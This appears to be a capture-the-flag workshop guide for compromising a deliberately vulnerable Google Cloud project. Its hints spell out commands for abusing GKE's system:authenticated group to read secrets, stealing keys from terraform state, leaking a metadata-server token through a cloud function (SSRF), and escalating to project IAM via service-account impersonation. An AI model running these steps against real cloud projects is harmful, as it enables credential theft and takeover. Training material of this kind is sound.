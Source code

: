 # CTF Guide

## Your Goal

Your goal of this CTF is to exploit a vulnerable GCP project and find up to 5 flags.
During the challenge you will be able to move through the environment and step by step escalate your privileges until you manage the IAM bindings on the project, esentially allowing you to gain control of all resources in the project.
(In our CTF workshop setup, we have to keep you in check a bit and you will only be able to manage specific IAM bindings.)

## Prerequisites

To play this CTF and participate in our workshop you will need:
- A notebook and an internet connection
- A Google account. Any Google account such as `your-throwaway@gmail.com ` is enough. It does not have to be a Google Cloud account. 
- The [gcloud](https://cloud.google.com/sdk/docs/install) command line utility installed on your computer.
- The kubectl utility installed on your computer. You can install it as a component of gcloud: `gcloud components install kubectl`

## Your starting point

The cloud services in the project might be misconfigured or leak information that can be useful for you as attacker.
You'll start out with just an IP address as your first piece of information.

We are providing you with useful hints and commands for each challenge.
Don't hesitate to use them, as you will have limited time for this CTF during our workshop.

## Challenges

### Challenge 1: Cluster confidentials

You received just an IP address as your very first entrypoint into the GCP project.  
Which ports are open? Is something listening here?  
Does it give you an idea what kind of infrastructure it is?

To simplify your next commands, set the IP address as an environment variable: `export IP=<IP>`

<details>
  <summary>Hint 1</summary>

    You found a GKE (Google Kubernetes Engine) cluster.  
    As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
    What if you were in `system:authenticated`?  

</details>
  

<details>
  <summary>Hint 2</summary>
    
    `system:authenticated` sounds like strict access control - but is it?  
    All you need to do is authenticate - with pretty much any Google account.  
    What if you can get a token for your own Google account and provide that to the API?  
    Are there any endpoints you can access now?  
    
</details>
  

<details>
  <summary>Hint 3</summary>

    `system:authenticated` will require you to present a Google access token.  
    It can be any token - also for your own Google account that is not associated with our target GCP project.  
    You can use the [oauth playground](https://developers.google.com/oauthplayground/) to get an access token.  
    Select "Kubernetes Engine API v1" as a scope and exchange your authorization code for an access token.  
    To simplify the following commands, set your token in an environment variable: `export TOKEN=<your token>`  
    Present it to the GKE API:  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api`  
    That's a more promising response than `403 Forbidden1`!  
    Maybe you can find out, which permissions you have on the cluster as part of the `system:authenticated` group.  

</details>
  

<details>
  <summary>Hint 4</summary>

    It would be nice to know what you can access on the cluster.  
    Luckily, there is an endpoint for that too and you are allowed to query it:  
    `curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews`  
    It looks like you have read access to some resources on the default namespace of the cluster. Start enumerating some that might be interesting.  

</details>
  

<details>
  <summary>Hint 5</summary>

    You can read all resources in the `file-uploader` namespace on the cluster. Which secrets might it hold?  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets`  
    The secret values are base64 encoded. Decode them to read the value:  
    `echo -n <secret-value> | base64 -d  

</details>
  

Useful commands and tools:

- `nmap -sC -sV <IP>` (don't worry if you don't have nmap installed. Guessing common open ports also works here)
- `curl -k https://<IP>`
- `curl -k -H "Authorization:Bearer <token>" https://<IP>/api/v1/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)

### Challenge 2: State of affairs

You found credentials for a GCP service account.
The json blob already provides some useful information. It contains the GCP project ID, the e-mail of the service account (client_e-mail) and the private key of the account.  

Save the json blob in a file. You can now also use it as a credential for the gcloud CLI:  
`gcloud auth activate-service-account --key-file <path-to-file>`  
You can check that this worked when running `gcloud auth list`. It now shows the service account as active account.  

So what can you do with this account? Did you find any hints during challenge 1?

<details>
  <summary>Hint 1</summary>

    The kubernetes secret you found in challenge 1 has a label telling you the name of a storage bucket.
    Probably the service account you found belongs to this app and it can access the storage bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    The file uploader app running on the GKE cluster can access a storage bucket called "file-uploads-<gcp-project-id>.  
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

<details>
  <summary>Hint 3</summary>

    See what you can find on the bucket by using the `gsutil` command line utility.  
    `gsutil ls gs://<bucket-name>`
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

Useful commands and tools:

- gsutil (already installed with gcloud): gsutil ls gs://<...>

### Challenge 3: Computing power

The file on the storage bucket is pretty useful for you as attacker.  
That seems to be the leftovers of a terraform pipeline that someone set up for this GCP project.  
They deployed parts of the infrastructure with terraform and you can trace back what the developers did in the terraform state file.

Would that help you to move on into other infrastructure deployed here?

<details>
  <summary>Hint 1</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 2</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 3</summary>

    The state file conveniently contains the external IP address of a compute engine that was deployed with terraform.  
    But someone also created a Google Secret Manager secret with terraform and specified the secret value as well.  
    If you do that, you have to protect your state file as well, as it will contain the secret value in plain text.  
    Use the SSH key you find in the secret to SSH into the VM.  

</details>

Did you find the flag yet for this challenge?  

<details>
  <summary>Hint 1 - find the flag</summary>
    
    Flags are just metadata anyway ...
    Still, can you find it?

</details>

<details>
  <summary>Hint 2 - find the flag</summary>

    The GCP metadata server is a good endpoint to check when you gained access to a compute VM.  
    If you don't have the VM's access token yet, you could get it from the metadata server.  
    It also shows you startup scripts, ssh access information and any other custom data that someone might have stored as metadata for this VM.  
    `curl "http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google"`  

</details>


### Challenge 4: Invoking answers

You can controll a compute instance in the project!  
Let's look around a bit to find out what this instance can do and which other services are running in this GCP project.  
Your compute instance is running as a GCP service account, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  

`gcloud auth list` shows you who you are.  
That account looks like the compute engine default service account! A very powerfull account in GCP.  
By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
`gcloud compute instances list`  

"Request had insufficient authentication scopes". Well, that's disappointing.  
You can list your oauth access scopes with this command:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)`

That last access scope looks promising.

<details>
  <summary>Hint 1</summary>

    The access scopes of the compute engine allow you to read all storage buckets in the project.  
    `gcloud storage buckets list`  
    There is a second bucket that you couldn't access before.  
    Its content reveals another resource deployed in this project.  
    `gsutil ls gs://<bucket-name>` lets you list files on the bucket.  
    `gsutil cat gs://<bucket-name>` lets you read files on the bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 3</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 4</summary>

    Can you call the function from the VM? It responds with 403 Forbidden when you try it without credentials.  
    Maybe you can pass your VMs token as a credential as Authorization header? `curl -H "Authorization:Bearer <token>" https://...`  
    Your access token doesn't seem to work through. Is there another token type you could try?

</details>

<details>
  <summary>Hint 5</summary>

    Cloud functions use an identity token instead of an access token to check if the caller is allowed to invoke them.  
    You can get the identity token of the compute VM in the same way as you would do it for the access token:  
    `gcloud auth print-identity-token`  
    Now you can try calling the function:  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" https://<function-endpoint>`  
    It seems to expect a URL and then it returns the response.  

</details>

<details>
  <summary>Hint 6</summary>

    Which endpoint could you have the cloud function call?  
    Similar to the compute engine, the cloud function also uses the Metadata server ...

</details>

<details>
  <summary>Hint 7</summary>

    You can pass the URL to the metadata server to the function and have it call it.  
    This way, you can make it leak its access token.  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" -d '{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"} https://<function-endpoint>`  

</details>

Useful commands and tools:  

- the compute engine also has gcloud installed
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

### Challenge 5: Admin Impersonation

You extracted a new access token! Let's see what this one can do.  
You can use the tokeninfo endpoint again to find out:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=<token>`  
Cloud functions by default are also using the compute engine default service account - but with the full `cloud-platform` access scope!  

That should get you a set of nice new permissions on this GCP project.  
You can tell gcloud to use your new token by setting it as environment variable:  
`export CLOUDSDK_AUTH_ACCESS_TOKEN=<token>`  

Now, let's try to list the IAM policy on this GCP project to see which project-level access your account has:  
`gcloud projects get-iam-policy <project-id>`

You are Editor on this project which allows you read and write access to almost all resources.  
Congratulations! You compromised this GCP project.  

**Bonus Challenge:**  
There is one last level of control you can achieve - gaining persistent access!  
Wouldn't it be nice if you could add your own Google account to this project?  
You can try to set an IAM binding on the project level. But while the compute account you compromised is powerful, it can't modify the IAM settings on the project.  
But maybe another service account can?  

Note: In this CTF challenge the only role you can grant your own Google account on the project level is "role/viewer".  

<details>
  <summary>Hint 1</summary>

    When listing the service accounts on the project, one sounds like a good target: The terraform pipeline project admin account.  
    Check if your compute service account can impersonate this account:
    `gcloud iam service-accounts get-iam-policy <terraform account>`  
    It does have the serviceAccountTokenCreator role, allowing service account impersonation!

</details>

<details>
  <summary>Hint 2</summary>

    By impersonation a service account, you can leverage the permissions that this account has.  
    When listing the IAM bindings on the project again, the terraform account has a role that sounds intriguing: Terraform Pipeline Project Admin.  
    This is a custom role the developers created for their terraform pipeline.  
    Let's see what permissions it contains:  
    `gcloud iam roles describe TerraformPipelineProjectAdmin --project <project-id>`  
    Perfect! The account that you can impersonate, can modify the IAM bindings on this GCP project.  

</details>

<details>
  <summary>Hint 3</summary>

    Add your own Google Account to the GCP project by running:  
    `gcloud projects add-iam-policy-binding <project-id> --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>`

</details>

When you completed the bonus challenge, you should be able to access this project in the cloud console in your browser.  
Log in with the Google account you just added.  

You finished the challenge and pwnd the vulnerable Google Cloud Project!

Useful commands and tools:


- list the IAM bindings on project level: `gcloud projects get-iam-policy <project-id>`
- list service accounts: `gcloud iam service-accounts list` 
- get IAM bindings showing who can control this service account: `gcloud iam service-accounts get-iam-policy <service account>`



Useful commands and tools:




